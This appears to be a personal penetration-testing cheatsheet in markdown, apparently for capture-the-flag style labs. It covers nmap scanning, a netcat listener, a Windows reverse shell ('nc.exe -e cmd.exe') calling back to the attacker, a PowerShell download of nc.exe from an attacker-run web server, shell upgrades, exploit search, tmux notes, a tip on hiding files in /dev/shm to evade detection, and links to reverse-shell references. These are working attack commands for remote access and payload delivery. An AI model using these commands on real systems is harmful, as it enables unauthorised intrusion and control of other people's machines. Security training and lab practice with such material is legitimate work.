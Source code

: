 # Cheatsheet

## Evaluation
```bash
# Shows version information
nmap -sC -sV -oA <ip>
```
## Reverse shell

Listen locally with nc
```
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|x|kill pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|



# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever

# Note keeping
Cherry Tree - Hierarchical tool with code highlight and screen capture

# Resources
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet